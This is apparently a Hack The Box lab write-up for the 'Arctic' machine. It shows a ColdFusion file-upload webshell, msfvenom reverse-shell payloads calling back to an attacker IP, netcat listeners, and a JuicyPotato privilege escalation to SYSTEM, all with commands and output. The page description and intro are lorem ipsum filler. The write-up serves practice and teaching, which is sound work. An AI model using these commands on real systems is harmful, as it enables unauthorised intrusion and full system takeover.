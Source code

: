 ```yaml
---
title: Arctic - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
image: images/arctic_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/arctic_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV 10.10.10.11 --open
    PORT      STATE SERVICE VERSION
    135/tcp   open  msrpc   Microsoft Windows RPC
    8500/tcp  open  fmtp?
    49154/tcp open  msrpc   Microsoft Windows RPC
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


  RPCCLIENT:
    -U "" = timeout


2. The port 8500 is unknown to me, so googling about it and I found a TCP port list, showing exploits from Shadowbrokers.
   Port 8500 is assigned for 'ColdFusion Macromedia/Adobe ColdFusion default Webserver port'.

   Continue to google about ColdFusion exploits and I find a python upload script, made by Arrexel from HTB.

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 cmd.jsp                                                             (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp

    Command: whoami
      arctic\tolis

  The webshell is to unstable, so instead create a reverse payload to create a reverse shell.
    [root:/git/htb/arctic]# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.8 LPORT=4488 -f raw > payload.jsp                   (master✱)
      Payload size: 1496 bytes

    [root:/git/htb/arctic]# python coldFusion.py 10.10.10.11 8500 payload.jsp                                                         (master✱)
      Sending payload...
      Successfully uploaded payload!
      Find it at http://10.10.10.11:8500/userfiles/file/payload.jsp

    [root:/git/htb/arctic]# rlwrap nc -lvnp 4488                                                                                      (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49214
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\ColdFusion8\runtime\bin> whoami
        arctic\tolis

      C:\Users\tolis\Desktop> type user.txt
        02650d3a69a70780c302e146a6cb96f3


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Check privs to see if we can abuse them.

  C:\Users\tolis\Desktop> whoami /priv

    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                               State
    ============================= ========================================= ========
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled
    SeCreateGlobalPrivilege       Create global objects                     Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

  We got 'SeImpersonatePrivilege', and since it's a 2008 machine JuicyPotato is allways an option.

  Start by creating your reverse payload:
    [root:/srv/pub-share]# msfvenom -p cmd/windows/reverse_powershell lhost=10.10.14.8 lport=4499 > arctic-privesc.bat
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: cmd from the payload
      No encoder specified, outputting raw payload
      Payload size: 1583 bytes

  Setup a SMB Server and copy JuicyPotato and .bat-file to the victim:
    [root:/srv/pub-share]# smbserver.py share .

    C:\tmp> copy \\10.10.14.8\share\JuicyPotato.exe .
            1 file(s) copied
    C:\tmp> copy \\10.10.14.8\share\arctic-privesc.bat .
            1 file(s) copied.

  Execute the exploit:
    C:\tmp> JuicyPotato.exe -l 1444 -p c:\Windows\System32\cmd.exe -a "/c C:\tmp\arctic-privesc.bat" -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}
      Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1444
      ....
      [+] authresult 0
      {8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

      [+] CreateProcessWithTokenW OK


    [root:/git/htb/arctic]# rlwrap nc -lvnp 4499                                                                                      (master✱)
      listening on [any] 4499 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.11] 49269
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\Windows/System32> whoami
        nt authority\system

      C:\Users\Administrator\Desktop> type root.txt
        ce65ceee66b2b5ebaff07e50508ffb90



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Shadowbrokers port list:
  https://github.com/DonnchaC/shadowbrokers-exploits/blob/master/windows/Resources/Ep/Scripts/tcp_ports.txt

ColdFusion file upload:
  https://forum.hackthebox.eu/discussion/116/python-coldfusion-8-0-1-arbitrary-file-upload
